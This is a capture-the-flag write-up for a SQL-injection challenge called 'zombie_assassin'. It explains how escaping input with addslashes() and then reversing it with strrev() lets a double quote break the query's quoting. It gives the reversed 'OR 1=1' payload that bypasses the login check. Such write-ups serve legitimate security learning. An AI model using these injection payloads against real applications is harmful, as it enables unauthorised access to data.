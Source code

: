 ```yaml
---
custom_edit_url: null
sidebar_position: 17
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/283aa376-d15c-49ea-92d5-30ce164ce2d7)

We are provided with the SQL query:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

This challenge use the `addslashes()` function to add a (`\`) before every input quote. It then reverses the string using the `strrev()`s function.

If we provide the following URI parameter:

```
?id="
```

The resultant query becomes:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='"\' AND pw=''
```

Our input double-quote (`"`) is escaped (`\"`) and then the entire character sequence is reversed (`"\`).
This causes the original closing single-quote to be escaped (`"\'`) and the `"\' AND pw=` part is treated as a string.

We can now provide the following URI parameter:

```
?id="&pw=- -- 1=1 RO 
```

The resultant query becomes:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='"\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6216a823-f0ba-4fd3-90ed-88b30bd5e938)
